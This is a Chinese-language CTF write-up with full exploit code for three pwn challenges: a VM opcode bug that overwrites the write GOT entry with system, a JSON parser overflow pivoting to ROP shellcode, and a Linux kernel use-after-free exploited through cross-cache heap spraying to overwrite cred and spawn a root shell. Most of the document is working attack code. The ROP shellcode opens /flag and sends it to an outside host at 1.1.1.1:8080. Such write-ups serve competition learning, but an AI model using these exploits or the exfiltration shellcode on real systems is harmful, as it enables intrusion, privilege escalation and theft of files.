reg6 是控制 stack 的偏移的，可以sub 成负数，指向 got 表位置

```py
from pwn import *
#from ctypes import CDLL
#cdl = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = '45.40.247.139:17567'.replace(' ',':')
binary = './vvmm'

def start(argv=[], *a, **kw):
    if args.GDB:return gdb.debug(binary,gdbscript)
    if args.TAG:return remote(*args.TAG.split(':'),ssl=True)
    if args.REM:return remote(*attack.split(':'))
    return process([binary] + argv, *a, **kw)


#context(arch='amd64', log_level = 'debug')
context(binary = binary, log_level = 'debug',
terminal='tmux splitw -h -l 170'.split(' '))
#libc = context.binary.libc
#elf  = ELF(binary)
#print(context.binary.libs)
#libc = ELF('./libc.so.6')
#import socks
#context.proxy = (socks.SOCKS5, '192.168.31.251', 10808)
gdbscript = '''
b *0x401767
#continue
'''.format(**locals())
#import os
#os.systimport os
#io = remote(*attack.split(':'))
io = start([])

ru('Please input your opcodes:\n')
#pay = flat({
#},filler=b'\x00')

def mov_reg(idx,data):
    pay = p8(0x3 | (3 << 2)) + p8(idx) + p32(data)
    return pay

def add_reg(idx,data):
    pay = p8(0x3 | (0xA << 2)) + p8(idx) + p32(data)
    return pay

def sub_reg(idx,data):
    pay = p8(0x3 | (0xB << 2)) + p8(idx) + p32(data)
    return pay


def push(idx):
    pay = p8(0x1 | (0x1f << 2)) + p8(idx)
    return pay
def pop(idx):
    pay = p8(0x1 | (0x20 << 2)) + p8(idx)
    return pay
#gdb.attach(io,gdbscript)

pay  = b''
pay += mov_reg(6,0) # 清空
pay += mov_reg(0,0x11223344)
pay += sub_reg(6,0x78+8)  # 然后 sub, stack 偏移变成 负的

pay += pop(1)
pay += pop(2) # libc 地址
pay += sub_reg(1,0x300e0) # 算到 system
pay += pop(3)
pay += pop(3)
pay += push(2)
pay += push(1) # 覆盖 write got 表
pay += mov_reg(0,0x4050ce) # cmd 地址
pay += p16(0 | (0x33<<2)) + p16(0x0100)  # 随便找一个 调用 write 的
pay += b'cat /flag\x00'


#pay += pop(1)
#pay += mov_reg(6,0x10+4)
#pay += p8(0x1 | 0x30<<2)

s(pay)

# libc.address = libc_base
# system = libc.sym['system']
# bin_sh = next(libc.search(b'/bin/sh'))
itr()

```

‍

‍

‍

## CandS

没有符号表，字符串定位，再简单的动态调试跟一下大概就能知道函数的功能了



直接溢出 可能 rop 不够用，所以先泄露 heap地址，然后 再把ROP 写道 `NAN` 后面stack迁移过去即可

```py
from pwn import *
#from ctypes import CDLL
#cdl = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = '127.0.0.1:5566'.replace(' ',':')
attack = '45.40.247.139:15581'.replace(' ',':')

server = process('./server')

context(arch='amd64', log_level = 'debug',
        terminal='tmux splitw -h -l 170'.split(' '))
sleep(1)
io = remote(*attack.split(':'))

#pay = {'NAN':'aaaa'
#       ,'header':b'hhhh'
#       ,'body':'bbbbbb'
#       ,'tail':'tttttt'
#       ,'uuid':'u' * 8
#       }

def sp(NAN = b'aaaa' ,head = b'H' * 0x10 ,body = b'bbbbb' ,tail = b'ttttt' ,uuid = b'u' * 0x10):
    pay  = b'{"header":"' + head + b'",'
    pay += b'"body":"'   + body + b'",'
    pay += b'"tail":"'   + tail + b'",'
    pay += b'"uuid":"'   + uuid + b'"}'
    return pay


gdbs = '''
#b *0x401324
#b *0x0401379
b * 0x0004014F0
'''

ru(b'Input NAN: ')
sl('aaaa')
pay = sp(body=b'A'*0x10,tail=b64e(b'haha\xFF').encode())
sl(pay)
ru('"GIFT":\t"')
heap_addr = int(b64d(ru('"')[:-1])[len('give you '):],16)
lss('heap_addr')


rop_base = heap_addr + 0x250

#gdb.attach(io,gdbs)

rop1 = flat({
    0x60:rop_base,
    0x68:0x4014EF,
},filler=b'\x00')

rax = 0x00000000004005cf # pop rax ; ret
rdi = 0x0000000000400535 # pop rdi ; ret
rsi = 0x000000000041ae53 # pop rsi ; ret
rdx = 0x000000000045eb96 # pop rdx ; ret
syscall = 0x490965


sc  = b''
sc += asm('add rsp,0x300')
sc += asm(shellcraft.open('/flag'))
sc += asm('mov r13, rax')
sc += asm(shellcraft.connect('1.1.1.1', 8080))
sc += asm(shellcraft.sendfile(6,'r13',0,0x50))

rop2  = b''
rop2 += p64(rop_base)
rop2 += p64(rax) + p64(0xa)
rop2 += p64(rdi) + p64(rop_base >> 0xC << 0xC)
rop2 += p64(rsi) + p64(0x2000)
rop2 += p64(rdx) + p64(7)
rop2 += p64(syscall)
rop2 += p64(rop_base+0x58)
rop2 +=  sc


ru(b'Input NAN: ')
sl(b64e(rop2).encode())
lss('rop_base')
pay = sp(body=b'A'*0xC0,tail=b64e(rop1+b'\xFF').encode())
sl(pay)
itr()

server.interactive()
```

‍



‍

## baby_kk

UAF 漏洞， free 后 只是 清空 一个 flags ，并没有清空 heap 列表，edit 和 show 功能也能对frree 的堆块进行操作，Cross cache Attack  UAF cred 结构体 修改 uid,





参考链接

```py
https://blog.xmcve.com/2023/10/12/Kernel-Heap---Cross-Cache-Overflow/
```

‍

exp

```c
#include "minilib.h"

int fd = 0;
char VULN_DEVICE[] = "/dev/baby_kk";

// static void shellcode(){
//     asm volatile (
//         "xor rdi, rdi;"
//         "mov rcx, prepare_kernel_cred;"
//         "call rcx;"
//         "mov rcx, commit_creds;"
//         "call rcx;"
//         // swapgs_restore_regs_and_return_to_usermode -- mov rdi,rsp
//     );
//     // restore_flags
//     asm volatile (
//         "nop;"
//         "nop;"
//         "push user_ss;"
//         "push user_sp;"
//         "push user_rflags;"
//         "push user_cs;"
//         "push shell_addr;"
//         "swapgs;"
//         "iretq;"
//     );
// }size_t sc_addr = (size_t)&shellcode + 8;


// IOCTL 命令定义
#define ALLOC_CMD   0x1111  // 4369
#define FREE_CMD    0x2222  // 8738
#define WRITE_CMD   0x3333  // 13107
#define READ_CMD    0x4444  // 17476

// 用于 IOCTL 的数据结构
struct ioctl_data {
    size_t user_buffer;  // 用户空间缓冲区地址
    size_t size;         // 大小
    size_t index;        // 堆块索引
};

// 分配堆块
int add(size_t index) {
    struct ioctl_data data;
    data.user_buffer = 0;
    data.size = 0;
    data.index = index;
    return ioctl(fd, ALLOC_CMD, (unsigned long)&data);
}

// 释放堆块
int rm(size_t index) {
    struct ioctl_data data;
    data.user_buffer = 0;
    data.size = 0;
    data.index = index;
    return ioctl(fd, FREE_CMD, (unsigned long)&data);
}

// 写数据到堆块
int edit(size_t index, void *buffer, size_t size) {
    struct ioctl_data data;
    data.user_buffer = (size_t)buffer;
    data.size = size;
    data.index = index;
    return ioctl(fd, WRITE_CMD, (unsigned long)&data);
}

// 从堆块读数据
int show(size_t index, void *buffer, size_t size) {
    struct ioctl_data data;
    data.user_buffer = (size_t)buffer;
    data.size = size;
    data.index = index;
    return ioctl(fd, READ_CMD, (unsigned long)&data);
}

int rootfd[2];
int sprayfd_child[2];
int sprayfd_parent[2];


#define __NR_pipe 22
// pipe function code
int pipe(int pipefd[2]) {
    long ret = syscall64(__NR_pipe, pipefd, 0, 0);
    return ret;
}


int odp(char *path){ return open(path, 2); }

#define add_  0xCAFEBABE
#define edit_ 0xF00DBABE


struct exp{
    size_t idx;
    size_t size;
    char *buf;
};


// linux-6.11/include/linux/socket.h
#define AF_PACKET       17	/* Packet family		*/
#define SOCK_RAW	    3
#define PF_PACKET       AF_PACKET
#define SOL_PACKET      263
#define PACKET_VERSION  10
#define PACKET_TX_RING  13
#define TPACKET_V1  0
int socket(int domain, int type, int protocol) {
    return syscall64(41, domain, type, protocol);
}
typedef unsigned int socklen_t;
int socketpair(int domain, int type, int protocol, int fds[2]) {
    long ret = syscall64(53, domain, type, protocol, (long)fds, 0);
    if (ret < 0) {
        return ret;  // 返回错误码（负数）
    }
    return 0;  // 成功返回 0
}
int setsockopt(int fd, int level, int optname, const void *optval, socklen_t optlen) {
    // 系统调用号 __NR_setsockopt = 54
    long ret = syscall64(54, fd, level, optname, (long)optval, optlen);
    if (ret < 0) {
        return ret;  // 返回错误码（负数）
    }
    return 0;  // 成功返回 0
}

struct tpacket_req {
    unsigned int    tp_block_size;  // 每个块大小（必须是 PAGE_SIZE 的倍数）
    unsigned int    tp_block_nr;    // 块数量
    unsigned int    tp_frame_size;  // 每帧大小（<= tp_block_size）
    unsigned int    tp_frame_nr;    // 总帧数
};

int alloc_pages_via_sock(uint32_t size, uint32_t n){
    struct tpacket_req req;
    uint socketfd, version;
    socketfd = socket(AF_PACKET, SOCK_RAW, PF_PACKET);
    version = TPACKET_V1;
    setsockopt(socketfd, SOL_PACKET, PACKET_VERSION, &version, sizeof(version));
    memset(&req, 0, sizeof(req));
    req.tp_block_size = size;
    req.tp_block_nr = n;
    req.tp_frame_size = 4096;
    req.tp_frame_nr = (req.tp_block_size * req.tp_block_nr)/req.tp_frame_size;
    setsockopt(socketfd, SOL_PACKET, PACKET_TX_RING, &req, sizeof(req));
    return socketfd;
}


#define __NR_unshare 272
void unshare(size_t flags){ syscall64(__NR_unshare, flags, 0, 0); }

#define CLONE_NEWNS     0x00020000	/* New mount namespace group */
#define CLONE_NEWUSER   0x10000000	/* New user namespace */
#define CLONE_NEWNET    0x40000000	/* New network namespace */
void unshare_setup(uint uid, uint gid){
    int temp;
    char edit[0x100] = {0};
    char intstr[0x20] = {0};
    unshare(CLONE_NEWNS|CLONE_NEWUSER|CLONE_NEWNET);     //Create new namespace and get in
    temp = open("/proc/self/setgroups", O_WRONLY);
    write(temp, "deny", strlen("deny"));
    close(temp);
    temp = open("/proc/self/uid_map", O_WRONLY);
    strcat(edit, "0 ");
    strcat(edit, int_to_str(uid, intstr));
    strcat(edit, " 1");
    write(temp, edit, strlen(edit));
    memset(edit, 0, sizeof(edit));
    close(temp);
    temp = open("/proc/self/gid_map", O_WRONLY);
    strcat(edit, "0 ");
    strcat(edit, int_to_str(gid,intstr));
    strcat(edit, " 1");
    write(temp, edit, strlen(edit));
    close(temp);
    return;
}

enum spray_cmd {
    ALLOC_PAGE,
    FREE_PAGE,
    EXIT_SPRAY,
};
typedef struct {
    enum spray_cmd cmd;
    int32_t idx;
} ipc_req_t;

#define INITIAL_PAGE_SPRAY 1000
#define FORK_SPRAY 320
int socketfds[INITIAL_PAGE_SPRAY];
void spray_comm_handler(){
    //int sfd  = alloc_pages_via_sock(4096, 1);
    //lss("sfd", sfd);
    ipc_req_t req;
    int32_t result;
    do{
        read(sprayfd_child[0], (char *)&req, sizeof(req));
        //assert(req.idx < INITIAL_PAGE_SPRAY);
        if(req.cmd == ALLOC_PAGE){
            socketfds[req.idx] = alloc_pages_via_sock(4096, 1);
        }else if (req.cmd == FREE_PAGE){
            close(socketfds[req.idx]);
        }
        result = req.idx;
        write(sprayfd_parent[1], (char *)&result, sizeof(result));
    }while(req.cmd != EXIT_SPRAY);
}
void send_spray_cmd(enum spray_cmd cmd, int idx){
    ipc_req_t req;
    int32_t result;

    req.cmd = cmd;
    req.idx = idx;
    /* write to child manager for cmd */
    write(sprayfd_child[1], (char *)&req, sizeof(req));
    /* read from parent pipe which just been writen by child manager */
    read(sprayfd_parent[0], (char *)&result, sizeof(result));
}


int just_wait(){
    sleep(100000);
}


struct timespec {
	long	tv_sec;		/* seconds */
	long    tv_nsec;	/* nanoseconds */
};

struct timespec timer = {.tv_sec = 1000000000, .tv_nsec = 0};
char throwaway;
char root[] = "root\n";
char binsh[] = "/bin/sh\x00";
char *args[] = {"/bin/sh", NULL};
__attribute__((naked)) void check_and_wait()
{
    asm(
        "lea rax, [rootfd];"
        "mov edi, dword ptr [rax];"
        "lea rsi, [throwaway];"
        "mov rdx, 1;"
        "xor rax, rax;"
        "syscall;"              //read(rootfd, throwaway, 1)
        "mov rax, 102;"         
        "syscall;"              //getuid()
        "cmp rax, 0;"           // not root, goto finish
        "jne finish;"
        "mov rdi, 1;"
        "lea rsi, [root];"
        "mov rdx, 5;"
        "mov rax, 1;"
        "syscall;"              //write(1, root, 5)
        "lea rdi, [binsh];"
        "lea rsi, [args];"
        "xor rdx, rdx;"
        "mov rax, 59;"
        "syscall;"              //execve("/bin/sh", args, 0)
        "finish:"
        "lea rdi, [timer];"
        "xor rsi, rsi;"
        "mov rax, 35;"
        "syscall;"              //nanosleep()
        "ret;");
}
#define CLONE_VM        0x00000100  /* 共享虚拟内存（即线程） */
#define CLONE_FS        0x00000200  /* 共享文件系统信息（根目录、当前目录等） */
#define CLONE_FILES     0x00000400  /* 共享文件描述符表 */
#define CLONE_SIGHAND   0x00000800  /* 共享信号处理程序 */
#define CLONE_FLAGS CLONE_FILES | CLONE_FS | CLONE_VM | CLONE_SIGHAND
__attribute__((naked)) int __clone(uint64_t flags, void *dest)
{
    asm("mov r15, rsi;"
        "xor rsi, rsi;"
        "xor rdx, rdx;"
        "xor r10, r10;"
        "xor r9, r9;"
        "mov rax, 56;"
        "syscall;"
        "cmp rax, 0;"
        "jl bad_end;"
        "jg good_end;"
        "jmp r15;"
        "bad_end:"
        "neg rax;"
        "ret;"
        "good_end:"
        "ret;");
}


#define CRED_JAR_INITIAL_SPRAY 32


void doMain(){
    fd = odp(VULN_DEVICE);
    size_t * ptr = malloc(0x2000);
    memset(ptr, 0x41, 0x2000);
    lss("fd", fd);
    pipe(sprayfd_child);
    pipe(sprayfd_parent);

    if(!fork()){
        unshare_setup(getuid(), getgid());
        spray_comm_handler();
        _exit(0);
    }
    pipe(rootfd);

    puts(g_color "unshare_setup.");


    for(int i = 0; i < CRED_JAR_INITIAL_SPRAY; i++){
        int tmp = fork();
        if(!tmp){
            just_wait();
        }
    }
    puts(g_color "...1");
    
    for(int i = 0; i < INITIAL_PAGE_SPRAY; i++){
        send_spray_cmd(ALLOC_PAGE, i);
    }
    puts(g_color "...2");
    for(int i = 1; i < INITIAL_PAGE_SPRAY; i += 2){
        send_spray_cmd(FREE_PAGE, i);
    } 
    puts(g_color "...3");
    for(int i = 0;i< 0x400;i++){
        add(i);
        edit(i, ptr, 0x10);
    }
    puts(g_color "...4");
    for(int i = 0;i< 0x400;i++){
        rm(i);
    }
    for(int i = 0; i < FORK_SPRAY; i++){
        uint result = __clone(CLONE_FLAGS, &check_and_wait);
    }
    puts("ok");
    for(int i = 0;i < 0x400;i++){
        show(i, ptr, 0x10);
        if(ptr[1] == 0x3e8000003e8){
            memset(ptr, 0x0, 0x18);
            edit(i, ptr, 0x18);
            puts("root.");
            break;
        }
    }
    puts(g_color "try....");
    memset(ptr, 0x41, 0x1000);

    write(rootfd[1], (char *)ptr, FORK_SPRAY);
    sleep(10000);
    _exit(0);


}

extern void _start(){
    size_t env[0];
    environ = (size_t)&env[4];
    doMain();
    syscall64(60,0);
}
```



‍
